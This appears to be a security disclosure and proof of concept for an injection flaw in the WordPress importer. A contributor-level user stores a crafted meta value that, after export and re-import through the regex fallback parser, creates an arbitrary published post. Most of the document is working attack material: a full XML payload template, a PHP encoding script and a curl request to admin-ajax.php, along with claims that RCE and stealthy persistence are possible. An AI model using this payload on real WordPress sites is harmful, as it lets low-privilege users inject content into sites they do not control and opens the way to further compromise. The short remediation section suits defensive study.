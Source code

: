 # wordpress-importer arbitrary post create

Native WordPress importer have 3 different parser classes: `WXR_Parser_SimpleXML`, `WXR_Parser_XML` and `WXR_Parser_Regex`. If first two required PHP extensions (`simplexml` and `xml`) aren't installed or somehow they fail during export file parsing, then everything should be done by `WXR_Parser_Regex` class. 

Failing could occure because:
- malformed XML file 
- Huge XML file with lot of data (libxml doesn't obay memory constraints from php.ini)
- most important one: those extensions can't parse XML data that holds ascii control characters in it.

In the `WXR_Parser_Regex` we have following 
```
foreach ( $multiline_tags as $tag => $handler ) {
	// Handle multi-line tags on a singular line
	if ( preg_match( '|<' . $tag . '>(.*?)</' . $tag . '>|is', $importline, $matches ) ) {
...
``` 
and this means that somewhere in the user input if there is `</item>` we talk about end of the post. We all know that meta / custom fields can hold anything, so we have our entry point. Fallback towards `WXR_Parser_Regex` checked and entry point checked, time for demo.

## Eli5 PoC

On any WP instance log in with `contributor` user role. Create blog post and add meta / custom field with following value :)
Template payload for meta value:
```
</wp:meta_value></wp:postmeta></item>
[asciicontrol]
<item>
<title>Attack-Post-1337</title>
<link>http://attack.post/2020/07/19/attack-post/</link>
<pubDate>Sun, 19 Jul 2020 20:57:17 +0000</pubDate>
<dc:creator>attacker</dc:creator>
<guid isPermaLink="false">http://attack.post?p=1337</guid>
<description></description>
<content:encoded><!-- wp:paragraph -->
<p>boom jee</p>
<!-- /wp:paragraph --></content:encoded>
<excerpt:encoded></excerpt:encoded>
<wp:post_id>1337</wp:post_id>
<wp:post_date>2020-07-19 20:57:17</wp:post_date>
<wp:post_date_gmt>2020-07-19 20:57:17</wp:post_date_gmt>
<wp:comment_status>open</wp:comment_status>
<wp:ping_status>open</wp:ping_status>
<wp:post_name>attack-post</wp:post_name>
<wp:status>publish</wp:status>
<wp:post_parent>0</wp:post_parent>
<wp:menu_order>0</wp:menu_order>
<wp:post_type>post</wp:post_type>
<wp:post_password></wp:post_password>
<wp:is_sticky>0</wp:is_sticky>
<category domain="category" nicename="uncategorized">Uncategorized</category>
<wp:postmeta>
<wp:meta_key>_test</wp:meta_key>
<wp:meta_value>
``` 
prepare this template payload on the following way
```
//grab the content
$cnt = file_get_contents("attack-template.txt");
//add ascii control characters
$cnt = str_replace("[asciicontrol]", "\x00\x01\x02\x08\x16", $cnt);
//url encode it and it is ready to be used towards any meta (custom) field as value
file_put_contents("final-payload.txt", urlencode($cnt));
```
and create the meta / custom field as `contributor`.
```
curl 'http://local.target/wp-admin/admin-ajax.php' -H 'Cookie: ...' --data '_ajax_nonce=0&action=add-meta&metakeyselect=%23NONE%23&metakeyinput=wpdeeply&metavalue=[content_from_final-payload.txt]&_ajax_nonce-add-meta=61b457d48c&post_id=[your_post_id]' --compressed
```
Now log in as `administrator` export the Posts and import them anywhere you want. Say hello to extra post of any type with any data created by contributor.

## Few facts

- Many mainstream plugins accept raw user input in meta / custom fields
- RCE could be achieved without user/attacker interaction when import occurs
- persistence and stealth agents planting is 100% option in WP

## Remediation

- Sign the posts / data exported and check the signature with data need to be imported
- Follow 101 security practices for web applications

